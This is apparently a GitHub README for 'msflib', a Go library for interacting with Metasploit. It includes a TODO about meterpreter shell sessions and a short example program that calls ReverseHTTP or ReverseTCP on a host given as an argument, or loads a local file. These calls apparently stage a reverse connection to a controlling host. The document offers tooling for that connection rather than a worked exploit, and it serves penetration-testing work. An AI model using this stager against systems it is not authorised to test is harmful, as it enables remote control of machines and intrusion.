 # msflib
A golang library designed to interact with Metasploit

TODO: dropping to shell or running ls from meterpreter breaks everything, fix this!

Example:
```
package main

import (
	"msflib"
	"os"
	"strings"
)

func main() {
	// check args
	if len(os.Args) < 2 {
		os.Exit(0)
	}

	switch {
	case strings.HasPrefix(os.Args[1], "http"):
		msflib.ReverseHTTP(os.Args[1])
	case strings.HasPrefix(os.Args[1], "tcp"):
		msflib.ReverseTCP(os.Args[1])
	default:
		msflib.LoadLocal(os.Args[1]) // assumes Arg[1] is a filename
	}
}

```
